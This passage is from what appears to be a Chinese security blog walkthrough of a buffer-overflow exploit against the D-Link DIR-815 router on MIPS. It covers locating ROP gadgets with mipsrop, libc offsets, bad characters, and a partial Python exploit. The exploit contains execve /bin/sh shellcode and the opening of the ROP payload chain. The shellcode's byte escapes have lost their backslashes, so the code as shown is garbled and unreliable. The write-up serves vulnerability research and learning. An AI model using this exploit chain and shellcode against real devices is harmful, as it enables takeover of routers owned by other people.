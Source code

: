 该gadget的作用是将栈上(sp+0x24)处的内容给到寄存器ra，然后再跳转至s2寄存器中，所以s2寄存器就可以放我们需要的sleep函数的地址。这样的话`s1=gadget2=0x3B8A8+libc_base`，`s2 = sleep+libc_base`。

sleep函数在libuClibc-0.9.30.1.so的偏移为0x56BD0。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/libc_sleep.png)

3.ROP Gadget 3

执行完sleep函数之后需要控制程序执行栈上shellcode，这里需要用到mipsrop插件的`mipsrop.stackfinder()`，将栈上的shellcode地址存储进寄存器中。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/mipsrop-stackfinders.png)

找到0x14F28处的gadget3，所以`$(sp+0x24)=gadget3`，gadget3的作用是将sp+0x18处的值赋给s1，之后跳转到s4寄存器中的地址。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/14F28.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/14F28.png)

所以接下来我们需要的gadget4是’move $t9,$s1’，跳转到是s1也就是我们的shellcode。

4.ROP Gadget 4

利用`mipsrop.find("move $t9,$s1")`找到一下gadget。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/movet9s1.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/movet9s1.png)

这里选择0x1DD08作为gadget4，`s4=gadget4=0x1DD08+libc_base`。因为其他的gadget可能导致最后出现坏字符，比如我试了0xBB44，结果真实地址为0xBB44+0x76738000=0x76743b44，然而3b在sess_get_uid的时候就被截断了,所以导致rop没有构造成功。

[![](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/0x1DD08.png)](https://pup2y.github.io/2020/05/22/dir815-huan-chong-qu-yi-chu-lou-dong-zai-fen-xi/0x1DD08.png)

到这里所有的gadget都找齐了。

5.构造exp

整个payload是这样的：

这里顺便提下构造exp时有可能的坏字符：0x20（空格）、0x00（结束符）、0x3a（冒号）、0x3f（问号）、0x3b（分号）、0x0a(n换行符)等。具体还要看程序如何处理以及转义。

```
libc_base = 0x76738000
sleep = 0x56BD0
gadget1 = 0x57E50
gadget2 = 0x3B8A8
gadget3 = 0x14F28
gadget4 = 0x1DD08

# Linux/MIPS - execve /bin/sh - 48 bytes
shellcode = "xffxffx06x28"  # slti $a2, $zero, -1
shellcode += "x62x69x0fx3c"  # lui $t7, 0x6962
shellcode += "x2fx2fxefx35"  # ori $t7, $t7, 0x2f2f
shellcode += "xf4xffxafxaf"  # sw $t7, -0xc($sp)
shellcode += "x73x68x0ex3c"  # lui $t6, 0x6873
shellcode += "x6ex2fxcex35"  # ori $t6, $t6, 0x2f6e
shellcode += "xf8xffxaexaf"  # sw $t6, -8($sp)
shellcode += "xfcxffxa0xaf"  # sw $zero, -4($sp)
shellcode += "xf4xffxa4x27"  # addiu $a0, $sp, -0xc
shellcode += "xffxffx05x28"  # slti $a1, $zero, -1
shellcode += "xabx0fx02x24"  # addiu;$v0, $zero, 0xfab
shellcode += "x0cx01x01x01"  # syscall 0x40404

payload = 'A' * 0x3cd
payload += 'A' * 4                           # s0
payload += p32(libc_base + gadget2)       # s1 = mipsrop.tail() &amp;&amp; move $ra,$(sp+0x24) &amp;&amp; jr s2
payload += p32(libc_base + sleep)         # s2 = jr $(sp+0x24)
```